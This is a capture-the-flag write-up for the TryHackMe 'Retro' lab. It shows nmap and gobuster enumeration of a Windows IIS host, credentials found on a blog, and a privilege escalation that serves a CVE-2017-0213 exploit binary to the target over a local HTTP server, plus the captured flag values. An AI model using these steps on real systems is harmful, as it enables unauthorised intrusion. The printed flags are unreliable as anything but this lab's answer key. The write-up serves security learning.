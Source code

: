 # Retro

New high score!

[Retro](https://tryhackme.com/room/retro)

## Topic's

- Network Enumeration
- Web Enumeration
- Web Poking
- CVE-2017-0213 - Windows COM Aggregate Marshaler/IRemUnknown2

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Pwn

Can you time travel? If not, you might want to think about the next best thing.

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

---

There are two distinct paths that can be taken on Retro. One requires significantly less trial and error, however, both will work. Please check writeups if you are curious regarding the two paths. An alternative version of this room is available in it's remixed version Blaster.

```
kali@kali:~/CTFs/tryhackme/Retro$ sudo nmap -A -p- -sC -sV -Pn 10.10.222.128
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 09:46 CEST
Nmap scan report for 10.10.222.128
Host is up (0.039s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2020-10-04T07:51:25+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2020-10-03T07:44:58
|_Not valid after:  2021-04-04T07:44:58
|_ssl-date: 2020-10-04T07:51:26+00:00; +3m07s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016 (89%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2016 (89%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3m06s, deviation: 0s, median: 3m06s

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   38.93 ms 10.8.0.1
2   38.96 ms 10.10.222.128

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 133.01 seconds
```

1. A web server is running on the target. What is the hidden directory which the website lives on?

```
kali@kali:~/CTFs/tryhackme/Retro$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.222.128
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.222.128
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/04 09:50:53 Starting gobuster
===============================================================
/retro (Status: 301)
Progress: 31140 / 220561 (14.12%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/10/04 09:53:15 Finished
===============================================================
```

`/retro`

- [One Comment on “Ready Player One”](http://10.10.222.128/retro/index.php/2019/12/09/ready-player-one/#comment-2)

![](2020-10-04_09-54.png)

- `wade`
- `parzival`

2. user.txt

![](2020-10-04_09-57.png)

`3b99fbdc6d430bfb51c72c651a261927`

3. root.txt

```
kali@kali:~/CTFs/tryhackme/Retro$ unzip CVE-2017-0213_x64.zip
Archive:  CVE-2017-0213_x64.zip
  inflating: CVE-2017-0213_x64.exe
kali@kali:~/CTFs/tryhackme/Retro$ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.222.128 - - [04/Oct/2020 10:11:22] "GET / HTTP/1.1" 200 -
10.10.222.128 - - [04/Oct/2020 10:11:22] code 404, message File not found
10.10.222.128 - - [04/Oct/2020 10:11:22] "GET /favicon.ico HTTP/1.1" 404 -
10.10.222.128 - - [04/Oct/2020 10:11:34] "GET /CVE-2017-0213_x64.exe HTTP/1.1" 200 -
```

![](2020-10-04_10-14.png)

`7958b569565d7bd88d10c6f22d1c4063`
